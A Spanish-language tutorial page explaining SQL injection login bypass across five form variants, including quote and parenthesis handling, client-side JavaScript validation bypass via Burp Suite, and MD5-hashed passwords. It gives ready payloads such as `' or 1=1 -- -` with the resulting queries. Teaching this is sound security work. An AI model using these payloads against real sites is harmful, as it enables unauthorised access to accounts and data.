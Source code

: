 ```yaml
---
description: Técnica más básica de SQLi
---
```


# LOGIN FORM BYPASS

## **BYPASS DE FORMULARIO DE INICIO DE SESION**

Los formularios de inicio de sesion son un claro ejemplo de busqueda de datos en una base de datos.

###  **1. Formulario de inicio de sesión básico**

 El comando SQL que se ejecuta por debajo del formulario es el siguiente:

 **`SELECT * FROM users WHERE name='aaaaa' and password='bbbb'`**

 Esto quiere decir: **“SELECCIONA TODO DE LA TABLA users DONDE LA COLUMNA name EQUIVALE A ‘aaaaa’ Y LA COLUMNA password EQUIVALE A ‘bbbb’”**

 Esto quiere decir que se deben cumplir ambos datos.

 Por tanto, sabiendo que este formulario es vulnerable a SQL INJECTION, debemos generar un comando para el usuario que siempre sea cierto y un comando para la password que siempre sea cierto tambien, de tal manera que podemos hacer:

 **USERNAME:** `'Daniel ' or 1=1 -- -`  
 **PASSWORD:** `'Daniel ' or 1=1 -- -`

 Como vemos, aunque Daniel no se encuentre en la **COLUMNA name** de la **TABLA users,** se va a cumplir que 1=1 y lo mismo ocurre en la **COLUMNA password**.

{% hint style="info" %}
Cuando pone **“-- -”** es que se comenta el resto del comando. Es importante para que funcionen este tipo de comandos ya que puede haber elementos que molesten.  
 En el siguiente ejemplo se ve más claro.
{% endhint %}

 Asi conseguimos acceso.

###  **2. Formulario de inicio de sesión con paréntesis y comillas simples.**

 En este caso, la consulta SQL es un poco diferente:

 **`SELECT * FROM users WHERE name=('aaaaa') and password=('bbbb')`**

 Vemos que se ponen parentesis a la hora de llamar al contenido de las columnas. Si utilizamos el mismo truco de antes, obtendremos:

 **`SELECT * FROM users WHERE name=(''Daniel' or 1=1 -- -') and password=(''Daniel' or 1=1 -- -')`**

 Esto da un error como resultado, por tanto debemos conseguir cerrar el parentesis para que no moleste, teniendo en cuenta que despues cuando se cierre de manera “natural” dara igual por que estara comentado. Por tanto:

 **USERNAME:** `') or 1=1 -- -`  
 **PASSWORD:** `') or 1=1 -- -`

 **`SELECT * FROM users WHERE name=('') or 1=1 -- -') and password=('') or 1=1 -- -')`**

Ya tenemos acceso.

###  **3.** Formulario de inicio de sesión básico con paréntesis y comillas dobles

 Exactamente lo mismo que en el anterior pero con dobles:

 **`SELECT * FROM users WHERE name=("aaaaa") and password=("bbbb")`**

 **USERNAME:** `") or 1=1 -- -`  
 **PASSWORD:** `") or 1=1 -- -`

 **`SELECT * FROM users WHERE name=("") or 1=1 -- -") and password=("") or 1=1 -- -")`**

 Y ya tenemos acceso

###  **4. Formulario de inicio de sesión con validación de Javascript**

 En este caso, el problema es que no podemos poner caracteres especiales \('\) en el input del formulario. Por tanto no podemos introducir nuestro PAYLOAD en el formulario.

 **SOLUCION**: Utilizar BURP SUITE.

 **1.** Para ello, iniciamos **BURP SUITE**, activamos el Proxy en el navegador y enviamos unas credenciales cualquiera para que las intercepte BURP SUITE.

 **2.** Mandamos la peticion POST al REPEATER y modificamos los parametros con los que sabemos que vamos a acceder:

 **USERNAME:** `' or 1=1 -- -`  
 **PASSWORD:** `' or 1=1 -- -`

 **3.** En este caso ya no nos enfrentamos a la validacion JAVASCRIPT ya que estamos modificando directamente la peticion.

 ya tenemos acceso.

###  **5. Formulario de inicio de sesión con password en MD5**

 Muestra la PASS en MD5 pero aun asi, si utilizamos los parametros habituales, no tenemos problema en acceder.

 **USERNAME:** `' or 1=1 -- -`  
 **PASSWORD:** `' or 1=1 -- -`

 y ya tenemos acceso

